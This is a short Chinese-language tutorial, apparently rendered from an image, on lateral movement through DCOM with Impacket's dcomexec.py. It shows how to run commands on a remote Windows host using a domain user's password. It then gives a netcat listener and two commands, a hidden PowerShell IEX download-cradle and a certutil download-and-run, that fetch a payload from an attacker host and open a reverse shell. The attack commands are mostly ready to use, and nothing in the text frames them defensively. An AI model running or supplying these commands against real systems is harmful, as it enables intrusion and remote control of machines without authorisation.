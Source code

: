 ### Dcom 怎么操作

**利用 DCOM 执行命令**

这里我们主要介绍使用 `Impacket` 中的 `dcomexec.py` 工具，因为它非常灵活且功能强大

**基本语法：**

```bash
dcomexec.py <domain>/<username>:<password>@<target_ip> 'command'
```

**示例：**

假设你拥有一个域用户 `testuser` 的密码 `Password123!`，目标机器 IP 是 `192.168.1.100`，你想执行 `whoami` 命令

```bash
dcomexec.py testdomain/testuser:Password123!@192.168.1.100 'whoami'
```

如果成功，你会看到命令的输出

### 利用 DCOM 获取交互式 Shell

仅仅执行单条命令是不够的，通常我们希望获得一个交互式的 Shell。`dcomexec.py` 同样可以做到

**示例：**

使用 `dcomexec.py` 启动一个反弹 Shell 的命令

1. **监听端口：** 在你的攻击机上，用 `netcat` 或其他工具监听一个端口，例如 4444

   ```bash
   nc -lvnp 4444
   ```

2. **执行命令：** 在目标机器上，利用 DCOM 执行一个 PowerShell 反弹 Shell 的命令。你需要将 `<attacker_ip>` 和 `<port>` 替换为你的实际 IP 和端口

   ```bash
   dcomexec.py testdomain/testuser:Password123!@192.168.1.100 "powershell -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadString('http://<attacker_ip>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <attacker_ip> -Port 4444"
   ```

   或者使用更简单的 `certutil` 下载并执行恶意脚本：

   ```bash
   dcomexec.py testdomain/testuser:Password123!@192.168.1.100 "cmd.exe /c certutil.exe -urlcache -f http://<attacker_ip>/shell.bat && shell.bat"
   ```

   如果成功，你的 `netcat` 监听器上会收到一个反弹回来的 Shell